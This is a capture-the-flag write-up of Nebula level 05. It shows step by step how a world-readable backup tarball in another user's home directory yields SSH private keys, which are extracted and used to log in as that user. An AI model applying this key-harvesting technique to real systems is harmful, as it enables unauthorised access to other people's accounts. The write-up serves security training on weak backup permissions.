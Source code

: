 ```yaml
---
layout: post
title: "Nebula Series - Level 05"
---
```


*Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
system race conditions.*

**Level 05** reminds us to lock down our backups

<!--more-->

You need to secure your backups. The instructions for this level suggest we keep an eye out for weak permissions. Easy enough, let's
take a look at the target user's home directory

```bash
level05@nebula:~$ ls -l
total 0
```

At first glance it doesn't seem like there's anything there but if we include the `-a` flag to list
hidden files (aka dotfiles) we see some interesting directories:

```bash
level05@nebula:~$ ls -la
total 9
drwxr-x--- 1 flag05 level05   80 2020-04-27 20:02 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw------- 1 flag05 flag05    23 2020-04-27 20:02 .bash_history
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
drwx------ 2 flag05 flag05    60 2020-04-27 20:02 .cache
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
```

That `.backup` looks promising -- it's readable by anyone -- let's see what was backed up.

```bash
level05@nebula:~$ ls -la /home/flag05/.backup/
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 1 flag05 level05   80 2020-04-27 20:02 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
```

A tarball... whats it hold? We can use `tar` with `-t` to list the files in an archive and `-f` to
specify which archive

```bash
level05@nebula:~$ tar -tf /home/flag05/.backup/backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

There they are! The keys to the castle! Let's extract them to a new `/flag05keys` directory in our
home. Here, `-x` indicates we want to extract the files, `-v` enables verbose output, `-f`
again identifies the archive we're working with, and `-C` allows us to specify where the extracted
files should go. tar won't create the directory for us though so we run `mkdir ~/flag05keys` first.

```bash
level05@nebula:~$ mkdir ~/flag05keys && tar -xvf /home/flag05/.backup/backup-19072011.tgz -C ~/flag05keys
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

Let's check that the public key is the same as the one in `.ssh/authorized_keys`

```bash
level05@nebula:~$ diff ~/flag05keys/.ssh/authorized_keys ~/flag05keys/.ssh/id_rsa.pub
```

No output indicates these files are identical. That means, if this "backup" is an accurate
representation of our target's `.ssh`, we can connect as flag05 over `ssh` by providing this private
key with `-i`

```bash
level05@nebula:~$ ssh -i ~/flag05keys/.ssh/id_rsa flag05@localhost

The authenticity of host localhost (127.0.0.1) cant be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added localhost (ECDSA) to the list of known hosts.

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

flag05@nebula:~$
```

It worked! Now that we're user `flag05`, we can run `getflag` and move on.

```bash
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```

In Summary:

- Security is about the weakest link -- protect your backups

